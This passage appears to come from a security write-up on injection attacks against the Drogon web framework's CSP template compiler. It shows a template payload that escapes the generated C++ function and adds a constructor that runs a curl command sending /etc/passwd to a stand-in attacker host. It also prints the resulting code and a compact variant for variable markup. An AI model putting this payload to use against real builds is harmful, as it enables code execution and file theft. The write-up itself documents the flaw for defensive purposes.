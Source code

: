 We demonstrate this with the following CSP:

```csp {data-label=Example.csp}
<%c++ 
} 
__attribute__((constructor)) void injected()
{
    system("curl http://attacker.site --data @/etc/passwd");
}
std::string dummy(const DrTemplateData&)
{
    drogon::OStringStream Example_tmp_stream;
    std::string layoutName{""};
%>
```

and here's the generated C++:

```cpp {data-label=Example.cc data-copy-off}
// Boilerplate: includes...
std::string Example::genText(const DrTemplateData& Example_view_data)
{
    drogon::OStringStream Example_tmp_stream;
    std::string layoutName{""};
 
} 
__attribute__((constructor)) void injected()
{
    system("curl http://attacker.site --data @/etc/passwd");
}
std::string dummy(const DrTemplateData&)
{
    drogon::OStringStream Example_tmp_stream;
    std::string layoutName{""};
    // Boilerplate: convert stream to string and return....
```

The same idea goes for variable markup `[[...]]`, the only difference being whitespace is not allowed.

```csp
<h1>Hi [[name"];}}__attribute__((constructor))void/**/injected(){system("...");}std::string/**/dummy(const/**/DrTemplateData&data){drogon::OStringStream/**/Example_tmp_stream;std::string/**/layoutName{""};{auto&val=data["]]</h1>
```

Likewise for `<%layout` and `<%view`. (Left as an exercise for the reader.)

---

Thought that was the worst we could do? It gets worse.

### 4. RCE via File Name

Remember how Drogon runs `drogon_ctl` to convert .csp files to .cc files? Guess how this command is run.
